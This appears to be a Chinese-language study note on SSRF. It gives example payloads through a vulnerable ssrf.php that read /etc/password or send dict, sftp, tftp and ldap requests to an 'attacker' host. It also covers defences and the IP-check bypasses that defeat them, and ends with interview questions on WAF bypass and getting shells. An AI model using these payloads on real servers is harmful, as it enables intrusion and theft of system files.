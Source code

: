 #### 利用协议
> [https://www.secpulse.com/archives/70471.html](https://www.secpulse.com/archives/70471.html)

接受ua为curl的时候，支持的协议有
使用`curl -v http://xx.com/ssrf.php?url=sxxx`
```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```
#### 漏洞修复
> [https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html](https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html)

1.  检查是否为内网IP地址
绕过方法:
利用八进制IP地址绕过
利用十六进制IP地址绕过
利用十进制的IP地址绕过
利用IP地址的省略写法绕过
最好的做法：IP地址转换为整数再进行判断 
2.  获取真正请求的host 
   1.  如何正确的获取用户输入的URL的Host？
   最常见的就是，使用http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname 
   2.  只要Host只要不是内网IP即可吗？
   host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查 
   3.  只要Host指向的IP不是内网IP即可吗？
   不一定，可能会30x跳转 

**归纳**
> 解析目标URL，获取其Host
解析Host，获取Host指向的IP地址
检查IP地址是否为内网IP
请求URL
如果有跳转，拿出跳转URL，执行1



```
1. sql注入绕WAF的方式尽可能多说
2. 分块传输绕WAF的原理
3. 文件上传绕WAF的方式都有哪些
4. mssql除了xpcmdshell还有哪些方式拿shell
5. 绕waf手段和waf防御思路
6. mysql源码读过吗
7.flask模版注入讲讲
8. 沙箱逃逸了解吗
9. js混淆和逆向相关懂吗
● 如何绕过CDN找到真实IP，请列举五种方法 (★★★)
● redis未授权访问如何利用，利用的前提条件是? (★★★)
● mysql提权方式有哪些?利用条件是什么? (★)
● windows+mysql，存在sql注入，但是机器无外网权限，可以利用吗? (★)
● 常用的信息收集手段有哪些，除去路径扫描，子域名爆破等常见手段，有什么猥琐的方法收集企业信息? (★★)
● SRC挖掘与渗透测试的区别是什么，针对这两个不同的目标，实施过程中会有什么区别 (★★)
● 存储xss在纯内网的环境中，可以怎么利用？(★★)
● mssql中，假设为sa权限，如何不通过xp_cmdshell执行系统命令 (★★)
```
